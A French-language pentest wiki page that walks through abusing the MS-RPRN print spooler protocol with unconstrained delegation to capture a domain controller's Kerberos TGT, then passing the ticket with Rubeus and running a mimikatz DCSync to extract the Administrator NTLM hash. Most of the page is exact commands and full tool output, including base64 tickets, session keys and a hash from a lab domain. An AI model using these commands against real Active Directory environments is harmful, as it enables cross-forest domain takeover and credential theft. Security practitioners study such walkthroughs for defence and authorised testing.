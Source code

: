 ```yaml
---
title: MS-RPN
permalink: MS_RPN
---
```


# MS-RPN

MS-RPN est un protocole utilisé pour les printers. Il est cependant utilisable pour obtenir un accès administratif dans une forêt ou **sur une autre forêt avec laquelle on un trust**. (Voir [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)).

## Exploitation

L'exploitation utilise les éléments suivants:
- Un accès administratif sur un serveur avec **Unconstrained Delegation**. Par défaut ceci est le cas de tous les contrôleurs de domaine (serveur **CHOCOBO.goldsaucer.local**).
- Un serveur ciblé (serveur **MIDGAR.shinra-inc.local**)
- Il doit y avoir un accès réseau entre les deux serveurs et un trust bidirectionnel si les deux serveurs sont dans des domaines différents (y compris des forêts différentes)
- [Rubeus](https://github.com/GhostPack/Rubeus) et [SpoolSample](https://github.com/leechristensen/SpoolSample) à compiler et mimikatz.

Sur le serveur Chocobo.goldsaucer.local lancer:

``` 
.\Rubeus.exe monitor /interval:5
```

Ce script dumpera tout TGT obtenu par le serveur (ce qui arrivera en raison de l'unconstrained delegation). Laisser tourner et lancer dans un autre terminal:

``` 
.\SpoolSample.exe MIDGAR.shinra-inc.local CHOCOBO.goldsaucer.local
```

Ce second script va utiliser le service MS-RPN pour forcer le serveur MIDGAR à s'authentifier auprès du serveur contrôlé (CHOCOBO). En raison de l'unconstrained delegation, le serveur MIDGAR va envoyer son TGT dans le ticket de service Kerberos. Sur le cmd Rubeus on devrait avoir:

```
[+] 02/12/2018 21:58:26 - 4624 logon event for 'SHINRA-INC\MIDGAR$' from '192.168.80.100'
[*] Target LUID     : 0x2987c3
[*] Target service  : krbtgt

  UserName                 : MIDGAR$
  Domain                   : SHINRA-INC
  LogonId                  : 2721731
  UserSID                  : S-1-5-21-227358413-259298668-3497230074-1001
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 02/12/2018 21:58:26
  LogonServer              :
  LogonServerDNSDomain     : SHINRA-INC.LOCAL
  UserPrincipalName        :

    ServiceName              : krbtgt/SHINRA-INC.LOCAL
    TargetName               :
    ClientName               : MIDGAR$
    DomainName               : SHINRA-INC.LOCAL
    TargetDomainName         : SHINRA-INC.LOCAL
    AltTargetDomainName      : SHINRA-INC.LOCAL
    SessionKeyType           : aes256_cts_hmac_sha1
    Base64SessionKey         : Uhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAXGUypKME=
    KeyExpirationTime        : 01/01/1601 00:00:00
    TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
    StartTime                : 02/12/2018 21:58:26
    EndTime                  : 03/12/2018 06:56:52
    RenewUntil               : 09/12/2018 20:56:52
    TimeSkew                 : 0
    EncodedTicketSize        : 1372
    Base64EncodedTicket      :

      doIFWDCCBVSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
      cmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESoQMCAQKiggPwBIID7FszyHoAYZaQks5oJ8sTbwBtBXG3J+eadLQ/
      ueVE52c/ejXEd8z2YVTpOeN/FPsDUYABuxH4LJbD/dKxAfQNeuTmJUg4frHWqDvOarlmqc1MpQYqVCdY6JReEBNl30N67CycgGHs
      KbtOFhX80YlZrKFYHB1E2gSqIOhetLZydr7DwcAu5sF+NUFmoVc5efCuiJEDmUSp404r+TKf809sQ/v7IFm4ZYioRVPdfD+cQtLY
      OuHgErLFvrH9JRRF2/P9SNE4rvK+lmU8OEQWUnXfRMNKDOzd3Kigq0evkshDX8B7cCX47orK7Gm1YMxSTQrRjyaPl0DFbFOkd1Kj
      Q6QTdqgKkWjKFlAM6IvaB3hzNQv5ZLy3Bx8alkIm89gdR6xxkFx7ta81HSgEB2oDr5YxnSBXcXHUjDWaY3YSo2+Cgi5b8Ck4n932
      H75me2jVSccRajYWZbzjysnB6yGtnv/BivvbjjKWeFJKUdy8Xvh4zwWMiqBjj2tARGKK1XmJCBtehb3t/6GQhVcO6reZl6iS5WOm
      Q1JuASP1iAfQimKnBzljm1wo7dac/sWtCYAL78mkE8HK2phECwlxZ38dUp/yPXxRQ+Z6lCSfxsEF4XfmXDpxBGeNWpd+uvjfXexk
      Qe/Kml6Jwc8W5BGgP/IVlU4c/fPUijKjyXQIMnJZRyeDB32ujYOQb63dwTDWuxo6WTHQapzzoGZm5XAUKikbH+EdKKM4r4qxQ8XP
      8wUbGPppU7pSFN+ZgUtvLLYDV2Md/6ztEzQrRP0rd2uPLYXT6nef75VjR9UEKA1Gjxo8WvyvaXZdRKJQdvi4eWOr4luq3Re70/hF
      Fb8FccI8sEgpS9075dmEEKWgcEt3223ZBwBSbOqF6Emg0wQBypWfEquub57axbdsDop4557YSqliDXGd1DhvWENCGez4nPM4NQYj
      h3X0WeaKC03noJlqiWqXMnYUAoq7Cdo5OCvYORj8XT8eMV9vDXRe16wZVDvcUfqJnLa0605rNZwuX6adkLlre+G7rsJE7UReb6J0
      nnXxJwYHGq0QjilKJp5LX3AB1CexixZdkgxgnXgieQPOUsUton77/OFigcLQKk1/sfY6Qg+wSUxh9kGYCigqFultUp4s6E9cKeSG
      7w+Yb3Kty9XoxCCGAzF5gW2OU58gdHGk5qY+9d8YR35R5C9DLhY3tbtm8+Z1tYeyRUWw0k+Hi1Fwzm4qa0SyNTcFDI6xLmxUtnzJ
      Ce/oN3drOO25QwnLtEPhyBE3UK1RWAaBWetWKFLzAwv8hCyG288MU/8lPMqDXKkddHY43JlCIZzXOlO0X0KmKdJMaEVUUXf0V28h
      ZX/lo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgUhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAX
      GUypKMGhEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMTU4MjZa
      phEYDzIwMTgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmty
      YnRndBsQU0hJTlJBLUlOQy5MT0NBTA==

[*] Extracted  1 total tickets
```

On peut alors utiliser mimikatz (ou autre) pour faire un DCsync en utilisant le TGT récupéré. Rubeus permet de faire un pass the ticket:

```
.\Rubeus.exe ptt /ticket:doIFWDCCBVSgAwIBBaEDAgEWooIEU
jCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESo
QMCAQKiggPwBIID7F+UEe4HvHR188pbTGRg6+Smi1g5oGhtGqLSUYkDc/bViq8CfwcY2R9FgMqLoTUjUyjFXtsUvTUvoJ8boq7xt4LeUi6+JaCICTZsWy/DG
uisnNpZat1IOP5If7pvJPWwyZApWUMQfK21AHv4T/9lCes6Ilqk3ml3UX+l+rvJjIOxs3To/yhBZuWsxpaTsmg+FIyhY1HpsFuoMIP1GxPKDHuWKeKfOGHxG
2llYZp68f8Je6NpU120XdQC/dBbn2mY972fBfJfD4IpB7QkSAFHkX+vdEFUq4zIk+k/ge8fp4IZSIXzYEn+Bs3i1NqH0XRM23MoALD+h+HhX4bTaYMUeX3mr
W/Eg1mAwIwcDyqUjXT1vcwYNgoOUWKvondsKQBEEGB6VC2eiCFAdEoRSYpNNc8RBB0KPJ87zGLH4zBr6YNuAFj0RAW0WrNL5kImj6LfkUJ7fA+8L30/lqQ/M
/ryOlF43XZ35EuYZr+EADpWmNZgJ0kGyJQH5260xaPqPzrszlMgIqf25ZtplWU3hgYEGnkPtSPqDCfN+OpscSjBylASuzoPglF/2mWNbOoB0LgjUig9apACC
kRjDZhi21BI13RJHLntlzAwQhyUPv648RCPXFfW5wqxrUdzr1FZuPko0ms6hBntCC/FjHRLFElKdSrAGFWxiUE4FFrz9Urn0TsmpbHpzLE0oNpbKqWoC88x4
FNdWoGTRSOQl4syeMrzmpYTVLsCc5J2hQmk+oX2YaewfeEs1yRDWJt8WnHrCUUap04pIFewdlwnG5ojQJuGZuDtsTrBNkRLjcEoYxzmNrMMHYd/OMql30siW
k9Rrpn9lDX7P68fgC1R5rG/1ZyVXPvdcHEQO3i5QWPWF2gmjDznXBroMTOd4cxRZDllWaSPH77RJ7g0eOZLKRW3fd4AVNJBShZ6BqwK1xbhrne9OuBIf/1PE
k77F628T2dJ4H6mG/jnbdih92yQkXOiAYlcpkUBK4I7e/6mKeHt4egHGk0vPjw8u4wu7WGQtFGo9uE1euhELm+Q6l5zlAVLd7rb2vAVPqruFntssfe4RlKse
yN/V+kVteIyAf4u7lyEC64JEjVJHJN2BhrUcFjMY7XzhWKqnubR3zpr7ruk7rxwfP1DC6VbeHwo/GWWbIkn3TMo98NaBSUP0h7UqKtN6WOko8us6LfpBZAOx
ylnFaBS+Erfz4OPD5tlivR0EXFVp6hvKjHb9mfSdtOqAAKaGXV/1NULPUIVtgbyWnDKbj1S6f7wypzBHAnrfWJjfP3EeoNmZt4Xq1xcioEu1ZKYQTOMmfvW7
Epomgc8yidpJHQMb2VJtwVXhuyOGmwvXAVgo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgv+cfRiBxpphRN8cgCT5Khg3K5
uYK/oaeXVxIm8hTuWehEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMDU2NTJaphEYDzIwM
TgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmtyYnRndBsQU0hJTlJBLUlOQy5MT0NBT
A==

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.2.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

On peut alors faire un dcsync avec mimikatz (ici on récupère le hash de Administrator, mais on pourrait récupérer celui de krbtgt):

```
.\mimikatz.exe "lsadump::dcsync /domain:SHINRA-INC.local /user:SHI
NRA-INC\Administrator"

  .#####.   mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator
[DC] 'SHINRA-INC.local' will be the domain
[DC] 'MIDGAR.SHINRA-INC.local' will be the DC server
[DC] 'SHINRA-INC\Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 00:00:00
Password last change : 01/12/2018 21:45:58
Object Security ID   : S-1-5-21-227358413-259298668-3497230074-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: d961c5ec5be55f242a4e0671d364fda4
```

## Références
- [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample) 
